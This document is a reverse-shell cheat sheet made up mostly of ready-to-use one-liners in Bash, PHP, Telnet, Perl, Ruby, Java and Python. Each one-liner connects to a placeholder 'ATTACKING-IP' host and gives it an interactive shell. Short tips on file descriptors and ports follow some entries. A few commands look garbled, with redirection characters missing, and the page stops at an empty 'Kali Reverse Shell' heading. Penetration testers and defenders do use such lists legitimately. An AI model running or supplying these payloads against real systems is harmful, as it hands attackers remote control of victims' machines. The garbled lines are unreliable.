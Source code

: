 ### Bash Reverse Shell

`exec /bin/bash 0&0 2>&0`   
`0<&196;exec 196<>/dev/tcp/ATTACKING-IP/80; sh <&196 >&196 2>&196`   
`bash -i >& /dev/tcp/ATTACKING-IP/80 0>&1`   
Normal bash reverse shells.

### PHP Reverse Shell

`php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'`   
Assumes TCP uses file descriptor 3. If it doesn't work, try 4,5, or 6.

### Telnet Reverse Shell

`rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p`   
`telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443`   
Also listen on Port 443, due telnet.

### Perl Reverse Shell

`perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`    
Linux.

`perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"ATTACKING-IP:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'`   
`perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`   
Windows.

### Ruby Reverse Shell

`ruby -rsocket -e'f=TCPSocket.open("ATTACKING-IP",80).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'`

### Java Reverse Shell

`r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/ATTACKING-IP/80;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()`

### Python Reverse Shell

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`


## Kali Reverse Shell

